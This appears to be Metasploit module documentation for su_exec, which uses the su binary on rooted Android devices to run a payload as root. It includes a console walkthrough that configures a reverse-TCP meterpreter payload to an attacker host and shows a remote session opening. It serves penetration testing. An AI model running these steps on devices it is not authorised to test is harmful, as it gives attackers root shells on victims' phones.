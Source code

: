 ## Description

This module uses the su binary present on rooted devices to run a payload as root.

A rooted Android device will contain a su binary (often linked with an application) that allows the user to run commands as root.
This module will use the su binary to execute a command stager as root. The command stager will write a payload binary to a
temporary directory, make it executable, execute it in the background, and finally delete the executable.

On most devices the su binary will pop-up a prompt on the device asking the user for permission.

## Vulnerable Application

This module will only work on *rooted* devices. An off the shelf Android device is unlikely to be rooted, however it's possible to root a device without losing the data.
Many devices can be rooted by flashing new firmware, however the existing data will be lost.

## Verfication steps

You'll first need to obtain a session on the target device. To do this follow the instructions [here](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md)

Once the module is loaded, one simply needs to set the `SESSION` option and configure the handler. 
An example session follows:

```
msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                        Information         Connection
  --  ----  ----                        -----------         ----------
  1         meterpreter dalvik/android  u0_a80 @ localhost  192.168.0.176:4444 -> 192.168.0.107:46059 (192.168.0.107)

msf5 exploit(multi/handler) > use exploit/android/local/su_exec
msf5 exploit(android/local/su_exec) > set SESSION 1
SESSION => 1
msf5 exploit(android/local/su_exec) > set payload linux/aarch64/meterpreter/reverse_tcp
payload => linux/aarch64/meterpreter/reverse_tcp
msf5 exploit(android/local/su_exec) > set LHOST 192.168.0.176
LHOST => 192.168.0.176
msf5 exploit(android/local/su_exec) > set LPORT 4445
LPORT => 4445
msf5 exploit(android/local/su_exec) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.0.176:4445
[*] Transmitting intermediate midstager...(256 bytes)
[*] Sending stage (818780 bytes) to 192.168.0.107
[*] Meterpreter session 2 opened (192.168.0.176:4445 -> 192.168.0.107:49710) at 2018-10-01 17:44:50 +0800
[-] Exploit failed: Rex::TimeoutError Operation timed out.
[*] Exploit completed, but no session was created.

```

Please not that in most cases you will have to manually confirm the Superuser prompt 
on the device itself before the module completes. You can do `set WfsDelay 10` to
give yourself more time.


